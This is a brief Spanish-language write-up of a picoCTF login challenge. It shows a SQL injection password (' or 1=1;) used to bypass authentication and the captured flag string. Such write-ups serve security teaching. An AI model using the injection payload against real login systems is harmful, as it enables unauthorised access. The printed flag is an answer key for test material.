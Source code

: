 ## Descripción
Can you login to this website?Try to login [here](http://saturn.picoctf.net:56354/).
## Solución
Inserté las credenciales:
```
username: admin
password: ' or 1=1;
```
con esto me mostró el siguiente mensaje:
```
# Logged in! But can you see the flag, it is in plainsight.
```
Por lo que accedí al código fuente de la página y me mostró la basndera:
```
 picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
```
## Notas
## Referencias
